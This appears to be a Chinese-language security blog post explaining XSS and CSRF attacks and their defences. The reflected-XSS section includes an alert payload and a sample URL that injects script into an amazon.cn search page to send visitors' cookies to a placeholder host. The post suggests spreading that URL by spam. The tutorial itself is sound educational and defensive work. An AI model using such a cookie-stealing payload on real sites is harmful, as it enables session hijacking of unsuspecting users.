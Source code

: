```yaml
---
title: 了解XSS/CSRF
categories:
  - mixed
tags:
  - xss
  - csrf
  - security
date: 2017-06-06 13:21:15
updated: 2017-06-06 13:21:15
---
```


## XSS攻击和防御
### XSS定义
跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的特殊目的。

### XSS攻击方式
#### 反射型
发出请求时，XSS代码出现在URL中（典型的特征：攻击脚本写在URL中，是明文的），作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器（解析了XS代码，服务端把内容与HTML文本下发给浏览器，通常是js脚本），最后浏览器解析执行XSS代码这个过程像一次反射，故叫反射型XSS，也叫作"非持久型XSS“(Non-persistent XSS)
![反射XSS](./reflect_xss.png)

1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。
2. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。
3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie
='+document.cookie</script>

#### 存储型
把用户输入的数据”存储“在服务器端。这种XSS具有很强的稳定性。
比较常见的一个场景：黑客写下一篇包含恶意Javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的Javascript代码。黑客把恶意的脚本保存在服务器端，所以中XSS攻击就叫做"存储型XSS"。
#### DOM based XSS
也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS

### XSS的危害
这些危害包括但不局限于：
盗取管理员或普通用户cookie、session；
读取、篡改、添加、删除敏感数据;
网站挂马；
非法转账；
控制受害者机器向其它网站发起攻击 等等

### XSS防御措施
- 编码：不能对用户所有输入保持原样对用户输入的数据写入HTML文档
  [HTML实体编码规则](http://www.w3school.com.cn/tags/html_ref_entities.html)
  避免直接对HTML Entity解码
  使用DOM Parse转换，校正不匹配对的DOM标签
- 过滤：把输入不合法的过滤掉，保持安全性
  移除用户上传的DOM属性，如onerror，onclick等
  移除用户上传的Style节点，script节点，iframe节点等
  在表单提交或者url参数传递前，对需要的参数进行过滤,XSS过滤工具类代码过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出


## CSRF攻击和防御

参考链接：[CSRF 详解与攻防实战](https://segmentfault.com/a/1190000006963312)

CSRF是什么呢？CSRF全名是Cross-site request forgery，是一种对网站的恶意利用，CSRF比XSS更具危险性。想要深入理解CSRF的攻击特性我们有必要了解一下网站session的工作原理。 

http请求是无状态的，也就是说每次http请求都是独立的无关之前的操作的，但是每次http请求都会将本域下的所有cookie作为http请求头的一部分发送给服务端，所以服务端就根据请求中的cookie存放的sessionid去session对象中找到该用户资料了。 

CSRF攻击的主要目的是让用户在不知情的情况下攻击自己已登录的一个系统，类似于钓鱼。如用户当前已经登录了邮箱，或bbs，同时用户又在使用另外一个，已经被你控制的站点，我们姑且叫它钓鱼网站。这个网站上面可能因为某个图片吸引你，你去点击一下，此时可能就会触发一个js的点击事件，构造一个bbs发帖的请求，去往你的bbs发帖，由于当前你的浏览器状态已经是登陆状态，所以session登陆cookie信息都会跟正常的请求一样，纯天然的利用当前的登陆状态，让用户在不知情的情况下，帮你发帖或干其他事情。

### CSRF防御
通过 referer、token 或者 验证码 来检测用户提交。
尽量不要在页面的链接中暴露用户隐私信息。
对于用户修改删除等操作最好都使用post操作 。
避免全站通用的cookie，严格设置cookie的域。
